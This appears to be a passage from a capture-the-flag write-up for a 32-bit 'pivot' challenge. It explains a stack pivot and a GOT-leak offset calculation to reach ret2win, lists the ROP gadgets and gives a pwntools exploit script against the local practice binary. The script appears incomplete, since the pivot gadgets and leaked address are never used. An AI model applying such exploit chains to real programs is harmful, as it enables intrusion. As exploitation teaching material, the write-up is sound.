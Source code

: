 Now we need to get the function address of `foothold_function`. We can first call the function `foothold_function` which populates the .got.plt with the function address, then read the .got.plt.  With the function address we then add the offset `0x1F7`, which now becomes the function address of `ret2win` and call it. Note that we use this `0x08048830 : mov eax, dword ptr [eax] ; ret` gadget to get the function address of `foothold_function` from the .got.plt section. 

However, we do note that the stack is not large enough to hold the entire payload, thus we cannot call this immediately. What the challenge wants use to do is to perform a stack pivot the jump to the actual payload. Stack pivot can be easily done using this gadget `# 0x0804882e : xchg esp, eax ; ret` which swaps the values in the `esp` and `eax` register. We also know where we can place our actual payload which makes this challenge much easier.

Hence we use the following gadgets for the payloads. The first two gadgets are used for the stack pivot, jumping directly to our actual payload. This causes `foothold_function` to be called, populating the .got.plt section. After the .got.plt section was populated we can get the function address of `foothold_function`, add `0x1F7` and call `ret2win` allowing us to get the flag. 

```asm
    0x0804882e : xchg esp, eax ; ret
    0x0804882c : pop eax ; ret

    0x08048830 : mov eax, dword ptr [eax] ; ret
    0x08048833 : add eax, ebx ; ret
    0x080484a9 : pop ebx ; ret
    0x080485f0 : call eax
```

With all these information, we can now write our exploit and get the flag. 

```python
#!/usr/bin/env python3

from pwn import *

OFFSET = 44

def main():
    elf = ELF('pivot32')
    libc = ELF('libpivot32.so')
    p = process('./pivot32')
    
    foothold_got = p32(elf.got['foothold_function'])
    foothold_plt = p32(elf.plt['foothold_function'])
    
    xchg_esp_eax = p32(0x0804882e)    # 0x0804882e : xchg esp, eax ; ret
    pop_eax = p32(0x0804882c)         # 0x0804882c : pop eax ; ret
    mov_eax_eax = p32(0x08048830)     # 0x08048830 : mov eax, dword ptr [eax] ; ret
    add_eax_ebx = p32(0x08048833)     # 0x08048833 : add eax, ebx ; ret
    pop_ebx = p32(0x080484a9)         # 0x080484a9 : pop ebx ; ret
    call_eax = p32(0x080485f0)        # 0x080485f0 : call eax
    
    leak = p32(int(p.recvlines(timeout=1)[4][-8:], 16))
    print(f"Leaked address is {hex(u32(leak))}")
    offset = p32(0x1F7)
    
    payload_long = foothold_plt
    payload_long += pop_eax
    payload_long += foothold_got
    payload_long += mov_eax_eax
    payload_long += pop_ebx
    payload_long += offset
    payload_long += add_eax_ebx
    payload_long += call_eax
    
    p.sendline(payload_long)
    print(p.recvlines(timeout=1))
```
